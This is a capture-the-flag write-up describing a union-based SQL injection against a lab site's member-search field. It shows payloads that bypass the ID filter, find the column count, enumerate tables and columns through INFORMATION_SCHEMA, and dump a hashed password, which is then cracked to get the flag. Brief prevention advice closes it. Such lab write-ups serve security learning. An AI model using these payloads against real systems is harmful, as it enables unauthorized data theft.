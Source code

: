 # SQL Injection Vulnerability in Members Input Field

SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

# How We find it ?

**Location:** `page=member`

**Step 0:**

write any string in the input field; this SQL error will be thrown.

```sql
Unknown column 'test' in 'where clause'

```

**Step 1:** try to write any basic SQL SELECT Statement in members input field as it is vulnerable to SQL injection

**Result:**

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'select \*' at line 1
```

**Step 2 :**
we write to the search field `74 or 1=1` or `74 or 1=1--` we can replace 74 by any other random id.
the input have a label:` SEARCH MEMBER BY ID` so the original query may be something similar to :

```sql
SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = "id_number"

```

the injected query `74 or 1=1-- ` is typically combined with the original query by the application's backend code before being sent to the database for execution. so the resulted query is something like

```sql
 SELECT <column_name1>, <column_name2> FROM <table_name> WHERE ID = 74 or 1=1
```

In this case, the injected part '74 OR 1=1--' causes the query to return all rows from the users table because '1=1' is always true. If 'id=74' is not found, all the rows will be returned as 'OR 1=1' allows this to happen. The '--' at the end is used to comment out the rest of the original query to avoid syntax errors (it's not necessary to use the hyphens).
**Result:**

```sql
 result
 ID: 74 or 1=1
 First name: one
 Surname : me
```

> [!NOTE]
> the result show that the original select statement, query over two columns and this is a very important information to use in the sql query injection.

**Step 3 :**

In SQL injection attacks, knowing the number of columns in a SQL query can be important for constructing a SQL statement that doesn't break the syntax or structure of the original query. Additionally, if we want to use the UNION clause to combine other queries into the original, this condition should be fulfilled: Every SELECT statement within UNION must have the same number of columns.
We can use the `union-based` SQL injection technique to select more and more null values until the query is correct.
The UNION operator is used to combine the result sets of two or more SELECT statements.

```sql
SELECT _column_name(s)_ FROM _table1_ UNION SELECT _column_name(s)_ FROM _table2_;
```

Every SELECT statement within UNION must have the same number of columns.

Syntax example:

```sql

74 or 1=1 UNION SELECT null; -- The used SELECT statements have a different number of columns.
74 or 1=1 UNION SELECT null,null; -- This works.
74 or 1=1 UNION SELECT null,null,null; -- The used SELECT statements have a different number of columns.
```

**Step 3 :** use the information_schema database

`INFORMATION_SCHEMA` is a database within each MySQL instance, the place that stores information about all the other databases, contains several read-only tables, and not perform INSERT, UPDATE, or DELETE operations on them.
You can use queries against the information_schema database to retrieve information about the database server, such as:

- Listing databases and their properties (SCHEMATA table).
- Listing tables in a database (TABLES table).
- Listing columns in a table (COLUMNS table).
- Listing indexes in a table (STATISTICS table).
- Listing privileges that users have (SCHEMA_PRIVILEGES, TABLE_PRIVILEGES, COLUMN_PRIVILEGES tables).

```sql
74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables

```

```sql
ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: db_default
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: users
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: guestbook
Surname : BASE TABLE¦

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: list_images
Surname : BASE TABLE

ID: 74 or 1=1 union select TABLE_NAME, TABLE_TYPE from INFORMATION_SCHEMA.tables
First name: vote_dbs
Surname : BASE TABLE

```

Here's a breakdown of what's happening:

- The original query appears to be something like SELECT \* FROM table WHERE ID = 74.
- The injection starts with 74 or 1=1 which is always true (1=1), effectively bypassing any ID-based filtering in the original query.
- Then, we perform a UNION with another SELECT statement that retrieves TABLE_NAME and TABLE_TYPE columns from the INFORMATION_SCHEMA.tables.
- The retrieved table names `db_default`, `users`,` guestbook`, `list_images`,` vote_dbs`
  the value BASE TABLE in the TABLE_TYPE column indicates that the table is a regular, user-created table, not a view or a system table

```sql
 74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
```

```sql
ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : user_id

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : first_name

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : last_name

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : town

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : country

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : planet

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : Commentaire

ID:  74 or 1=1 union select TABLE_NAME, COLUMN_NAME From INFORMATION_SCHEMA.COLUMNS
First name: users
Surname : countersign
....

```

we tried :

```sql
74 or 1=1 union select user_id, first_name  from users
74 or 1=1 union select last_name, town from users
74 or 1=1 union select country, planet from users
74 or 1=1 union select Commentaire, countersign from users

```

After testing these series of SQL injection attempts, we observed that the flag appeared in the final query. In the query

```sql
74 or 1=1 union select Commentaire, countersign from users
```

the result shows :

```sql
ID: 74 or 1=1 union select Commentaire, countersign from users
First name: Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Surname : 5ff9d0165b4f92b14994e5c685cdce28

```

The instruction indicates that to verify this password, one should decrypt it, convert all characters to lowercase, and then apply the SHA256 hashing algorithm.
the provided hash "5ff9d0165b4f92b14994e5c685cdce28" appears to be a 128-bit hexadecimal representation, which is often indicative of an MD5 hash.
using : https://www.dcode.fr/identification-chiffrement to execute the instructions

decrypt MD5(5ff9d0165b4f92b14994e5c685cdce28) : FortyTwo
lowercase the dycrepted value: fortytwo
sh256 of fortytwo value: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

the flag is : 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

## How to Prevent ?

To secure your application against SQL injection, implement the following measures:

1. **Validate and Sanitize Inputs:**

   - Restrict user input to expected formats using validation techniques.
   - Use input sanitization libraries or frameworks to clean data.

2. **Limit Database Permissions:**

   - Use the principle of least privilege by restricting the database user to only the necessary permissions.

3. **Monitor and Log Activities:**
   - Implement monitoring tools to detect unusual database queries.

**Resources:**

information_shema:

- https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.3/en/information-schema-introduction.html

MySQL Injection:

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md
- https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection
- https://portswigger.net/web-security/sql-injection

dCode:

- https://www.dcode.fr/identification-chiffrement

